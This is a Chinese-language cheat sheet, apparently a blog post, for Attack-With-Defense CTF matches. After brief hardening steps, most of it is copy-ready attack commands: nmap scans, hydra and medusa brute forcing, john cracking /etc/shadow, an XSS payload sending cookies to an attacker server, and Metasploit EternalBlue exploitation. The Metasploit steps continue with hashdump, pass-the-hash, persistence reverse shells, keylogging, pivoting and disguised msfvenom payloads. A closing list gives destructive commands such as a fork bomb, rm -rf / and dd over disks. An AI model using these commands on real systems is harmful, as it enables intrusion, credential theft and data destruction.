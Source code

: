 ```yaml
---
layout: post
title: "AWD备忘"
date: 2018-08-31 17:28:06 +0800
description: ""
category: ctf/awd
tags: []
---
```


## 登录靶机

使用putty或命令通过ssh登录，并修改密码

```sh
ssh user@target_ip
passwd
ifconfig #查ip
```

查找网站根目录，并打包备份

```sh
find /var -name index.html 2>/dev/null
cd /var/www
tar -cvf /tmp/a.tar drupal-6.8
scp user@target_ip:/tmp/a.tar /tmp -r -P #将target_ip的/tmp/a.tar下载到本地/tmp，或通过Filezilla
```

## 防御加固

#### 查找数据库登录权限，后台登陆权限，修改初始密码

使用MySQL Workbench或命令登录数据库

```sh
mysql -h localhost -P 3306 -u root -p
use mysql;
update user set password=PASSWORD('sdafa') where user='root';
flush privileges;

show databases;
select * from user;
use ctf4;
show tables;
show columns from table;

/var/lib/mysql/mysqldump -u root -p Test > Test0809.sql #备份数据库
/var/lib/mysql/mysql -u root -p Test < Test0809.sql #还原数据库
```

#### Web网站目录设置只读权限

```sh
chmod -R 644 /var/www #-R递归到子目录
```

#### 部署waf

将waf.php传到要包含的文件的目录，在所需要防护的页面加入代码，注意：waf脚本不能影响正常功能

```php
require_once('waf.php');
```

#### 部署文件监控脚本

#### 审查漏洞并进行加固

工具：D_safe或者Seay

常见：Webshell后门、SQL注入、文件包含、文件上传、RCE等

## 渗透入侵

#### 发现目标，nmap

```sh
nmap -sn -n 192.168.1.1/24 #主机发现
nmap -F -n 192.168.1.1/24 #快速扫描
nmap -A -Pn -T4 192.168.1.108 #全面扫描
nmap -A -vv -p 0-65535 -T4 192.168.1.108 #超详细扫描
nmap --script vuln 192.168.1.108 #扫漏洞
nmap -iL /flag -oN /var/www/html/abc.txt #读文件
```

#### 密码在线暴力破解

medusa和hydra，大写字符接输入文件，小写字符接数值

```sh
medusa -M ssh -U /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/passwords.txt  -h 192.168.1.12 -t 50
medusa -M ssh -U user.txt -P pass.txt -t 50 -H target.txt

hydra -L user.txt -P pass.txt -M target.txt ssh
hydra -L user.txt -P pass.txt ssh://192.168.1.12
hydra  -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh
hydra  -l root -p XDVgz9T6 -M target.txt mysql
# -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode
```

#### 破解散列值，john

```sh
john -w=1.txt /etc/shadow #尝试字典文件，常用字典文件有：/usr/share/john/password.lst和/usr/share/wordlists/rockyou.txt（需解压）
john /etc/shadow #不带字典文件情况下，先尝试“简单破解”(single crack)模式，然后使用带规则的单词表，最后是尝试“增强破解”(incremental)模式。
john --show /etc/shadow #列出所有被破解的密码
cat /root/.john/john.pot #等效于上一个命令，直接看文件
```

#### XSS漏洞利用

``` sh
python -m SimpleHTTPServer 12345 #运行python http服务器
<script>new image().src="http://192.168.1.127:12345/a.php?cookie=" + encodeURI(document.cookie);</script> #XSS攻击将管理员（Robot）的cookie上传
```

#### 系统漏洞攻击，metasploit （msf）

六大模块：

- 前期探测：Auxiliary
- 攻击模块：Exploit（核心组件模块，包含针对各类操作系统漏洞的攻击代码 ）、Payload（成功利用漏洞后使目标系统运行的某些操作的代码，通常为二进制的shellcode，最常用的payload是使目标系统反弹shell）
- 后渗透模块：Post
- 辅助器：Encoders、Nops

```sh
msfupdate;msfdb init;msfdb start #升级数据库，启动数据库

msfconsole #启动msf
search type:exploit platform:linux mysql
search smb #搜索exp
use exploit/windows/smb/ms17_010_eternalblue #选择最近，级别高（excellent/great/good）的exp
show payloads #查看适配当前exp的payload
set payload windows/x64/meterpreter/reverse_tcp #设置payload，常用meterpreter/reverse_tcp
show options (advanced) #查看需要配置的参数
set RHOST 192.168.1.1 #设置必要参数，如目标主机和端口
run #运行攻击

sessions -l #列出后台所有session
session -i 5 #重新启用session

use priv
hashdump #输出系统hash表
  Administrator:500:a9a1d510b01177d1aad3b435b51404ee:afc44ee7351d61d00698796da06b1ebf:::
background  #返回，等效于ctrl + Z，放入后台
use exploit/windows/smb/psexec
set smbuser Administrator
set smbpass a9a1d510b01177d1aad3b435b51404ee:afc44ee7351d61d00698796da06b1ebf
exploit

#反弹持续控制，重启后自动反连
run persistence -X -i 50 -p 8888 -r 192.168.43.47 #靶机
use exploit/multi/handler #攻击机
set exitonsession false #持续
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.43.47
set lport 8888
等价于：handler -p windows/meterpreter/reverse_tcp -H 192.168.43.47 -P 8888

migrate 553 #监控键盘，需要先迁移到explore进程
keyscan_start
keyscan_dump
keyscan_stop

#内网映射
run get_local_subnets
route add 192.168.77.0/24 1(session)
run arp_scanner -r 192.168.77.0/24
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/ftp/ftp_version

#向内网传输文件
nc -lp 8888 > bb #将监听到的信息重定向到bb
nc host 8888 < a.elf 或 connect -i a.elf host 8888
proxychain nc host 8888 < a.elf

#以计算器.exe为模板生成自动连接payload
msfvenom -p linux/x86/meterpreter/bind_tcp lhost=0.0.0.0 lport 7878 -f elf -o a.elf -k -x calculate.exe
use payload/windows/meterpreter/reverse_tcp
set lhost 192.168.43.47
generate -t exe -f a.exe
```

meterpreter常用命令

```sh
#文件相关
download/upload/cat/mv/pwd/ls
#系统相关
clearev/shell/ps/kill/sysinfo
#权限相关
getsystem/hashdump/timestomp
```

## 系统流量监控，需要root权限

```sh
tcpdump -i eth0 -w /tmp/xxx.pcap
ps -ef | grep apache
vi {APACHE_HOME}/conf/httpd.conf
vi {APACHE_HOME}/logs/access_log
vi /var/log/httpd/access.log
```

## 危险命令（慎用）

```sh
:(){ :|:& };: #fork炸弹，定义一个名为:的函数，并在前台和后台递归调用自己
rm -rf / 
whoami　> /dev/sda
mkfs.ext3 /dev/sda
dd if=/dev/random of=/dev/sda
mv /var/www/html >  /dev/null
```





